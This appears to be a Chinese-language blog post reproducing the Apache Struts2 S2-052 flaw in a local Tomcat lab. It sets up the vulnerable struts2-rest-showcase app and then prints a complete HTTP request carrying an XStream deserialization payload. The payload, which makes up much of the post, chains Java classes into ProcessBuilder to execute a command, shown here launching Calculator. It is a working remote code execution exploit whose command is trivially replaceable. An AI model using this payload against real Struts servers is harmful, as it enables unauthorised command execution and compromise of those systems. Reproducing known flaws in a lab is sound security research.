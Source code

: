 

# S2-052的POC测试(原名：Tomcat部署war）
原文地址：http://blog.csdn.net/caiqiiqi/article/details/77861477


从struts2的官网下载最后受影响的版本struts-2.5.12，地址：
http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip
注意下载struts-2.5.12-apps即可，不需要下载struts-2.5.12-all.zip。不然struts-2.5.12-all.zip中包含很多其他的东西，可以看到lib目录下有很多jar包。
![](/image/1.png)
拿到struts-2.5.12-apps之后，将其中的app目录下的struts2-rest-showcase.war文件放到webapps目录下，我的是

/Library/Tomcat-8.5.15/webapps然后设置一下conf/server.xml文件即可。
![](/image/2.png)

这里把appBase设置为webapps目录，然后unpackWARs设置为true，这样就会自动解包xxx.war，autoDeploy也设置为true(热部署?)
然后就可以浏览器访问了。
直接输入
http://127.0.0.1:8080/struts2-rest-showcase/
会跳转，然后出现下面的页面，点击其中一个编辑，
![](/image/3.png)

然后将请求发送到burp，(我由于在FireFox上有代理插件，于是换到FireFox上了)点击”Edit”按钮，然后拦截请求，将请求中的Content-Type的值改为
application/xml,然后POST的数据用PoC中的xml内容代替。

晴天师傅的PoC

```bash
POST /struts2-rest-showcase/orders/3;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1663
Referer: http://127.0.0.1:8080/struts2-rest-showcase/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1

<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map> 
```


成功弹出计算器

![](/image/4.png)


然后可以看到页面一堆报错的

![](/image/5.png)
